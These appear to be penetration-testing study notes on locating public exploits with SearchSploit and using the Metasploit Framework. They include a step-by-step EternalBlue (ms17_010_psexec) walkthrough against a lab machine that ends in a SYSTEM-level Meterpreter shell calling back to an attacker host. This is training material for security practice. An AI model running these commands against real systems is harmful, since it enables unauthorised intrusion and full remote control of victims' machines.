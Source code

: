 
# Public Exploits

## Overview
- Public exploits target vulnerabilities in services or applications identified during enumeration.
- Examples: Web applications, SSH, FTP, and more.

---

## Finding Public Exploits

### SearchSploit
- **Installation**:
  ```bash
  sudo apt install exploitdb -y
  ```
- **Usage**:
  ```bash
  searchsploit <application_name>
  ```
- Example:
  ```bash
  searchsploit openssh 7.2
  ```

### Online Databases
- Examples:
  - Exploit DB
  - Rapid7 DB
  - Vulnerability Lab

### Google Search
- Format: `<application_name> exploit`.

---

## Metasploit Framework (MSF)

### Features
- Reconnaissance scripts for enumeration.
- Verification scripts to test vulnerabilities.
- Exploitation and post-exploitation tools (e.g., Meterpreter).

### Starting Metasploit
```bash
msfconsole
```

### Searching for Exploits
```bash
search exploit <vulnerability_name>
```
- Example:
  ```bash
  search exploit eternalblue
  ```

### Using Exploits
- Load an exploit:
  ```bash
  use <exploit_path>
  ```
  Example:
  ```bash
  use exploit/windows/smb/ms17_010_psexec
  ```

### Setting Options
- View options:
  ```bash
  show options
  ```
- Set required fields:
  ```bash
  set RHOSTS <target_ip>
  set LHOST <attacker_ip>
  ```

### Verifying Vulnerabilities
- Check if a target is vulnerable:
  ```bash
  check
  ```

### Running Exploits
- Execute an exploit:
  ```bash
  exploit
  ```

---

## Example: Exploiting EternalBlue
- Search for the vulnerability:
  ```bash
  search exploit eternalblue
  ```
- Use the exploit:
  ```bash
  use exploit/windows/smb/ms17_010_psexec
  ```
- Set options:
  ```bash
  set RHOSTS 10.10.10.40
  set LHOST tun0
  ```
- Verify the target:
  ```bash
  check
  ```
- Run the exploit:
  ```bash
  exploit
  ```
- Outcome:
  - Meterpreter session established.
  - Interactive shell access as NT AUTHORITY\SYSTEM.

---

## Best Practices
- Practice on retired Hack The Box machines (e.g., Granny, Blue, Lame).
- Use Metasploit judiciously; understand its limitations and pivot to manual techniques when needed.

---

# Question
Later